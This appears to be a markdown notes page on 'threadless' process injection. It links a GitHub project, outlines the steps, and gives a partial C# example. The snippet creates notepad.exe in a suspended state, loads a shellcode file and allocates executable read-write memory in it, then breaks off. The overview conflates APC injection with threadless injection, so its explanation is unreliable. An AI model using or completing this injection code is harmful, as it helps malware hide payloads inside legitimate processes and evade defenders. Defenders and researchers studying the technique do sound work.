 
TODO: read https://github.com/CCob/ThreadlessInject/tree/master

### **Threadless Process Injection Overview**

Threadless process injection typically involves:

1. **Creating a Suspended Process**: The target process is created in a suspended state.
2. **Injecting the Payload**: The payload (shellcode or executable code) is written into the target process’s memory.
3. **Modifying the Execution Flow**: The code modifies the execution flow of the target process to ensure the injected code is executed without creating a new thread.

One popular method involves using **asynchronous procedure calls (APC)** in conjunction with thread hijacking. In this scenario, instead of creating a new thread, the injected code is executed within the context of an existing thread in the target process.

### **Example: Using Asynchronous Procedure Calls (APC)**

Below is an example that demonstrates how to perform threadless process injection using APC in C#:

```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using Windows.Win32;
using Windows.Win32.Foundation;
using Windows.Win32.System.Memory;
using Windows.Win32.System.Threading;

class Program
{
    static void Main(string[] args)
    {
        // Path to the shellcode or payload
        string shellcodePath = @"C:\path\to\shellcode.bin";
        byte[] shellcode = File.ReadAllBytes(shellcodePath);

        // Target process (e.g., notepad.exe)
        string targetProcessPath = @"C:\Windows\System32\notepad.exe";

        // Step 1: Create the target process in a suspended state
        PROCESS_INFORMATION pi = default;
        STARTUPINFO si = new STARTUPINFO();
        bool success = PInvoke.CreateProcess(null, targetProcessPath, null, null, false, CREATE_PROCESS.CREATE_SUSPENDED, null, null, si, ref pi);

        if (!success)
        {
            throw new InvalidOperationException("Failed to start the target process.");
        }

        try
        {
            // Step 2: Allocate memory in the target process for the shellcode
            IntPtr remoteBuffer = PInvoke.VirtualAllocEx(pi.hProcess, IntPtr.Zero, (nuint)shellcode.Length, MEM_ALLOCATION_TYPE.MEM_COMMIT | MEM_ALLOCATION_TYPE.MEM_RESERVE, PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READWRITE);

            if (remoteBuffer == IntPtr.Zero)
            {
                throw new InvalidOperationException("Failed to allocate memory in the target process.");
            }

```